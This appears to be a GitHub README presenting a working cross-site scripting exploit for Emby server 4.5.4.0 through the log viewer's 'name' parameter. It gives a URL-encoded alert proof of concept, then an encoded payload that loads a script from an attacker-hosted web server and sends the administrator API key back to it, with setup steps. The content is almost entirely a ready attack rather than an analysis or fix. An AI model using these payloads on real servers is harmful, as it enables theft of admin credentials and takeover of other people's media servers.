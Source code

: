 # emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and webpage will show an alert dialog (U may have to refresh 2-3 times).

# emby-4.5.4.0-xss-steal-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%65%6d%62%79%2e%6a%73%27%3e"**

3.Browse the edited url and page will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

![image](https://raw.githubusercontent.com/EstamelGG/emby-4.5.4.0-xss-exp/main/WX20210128-174426%402x.png)

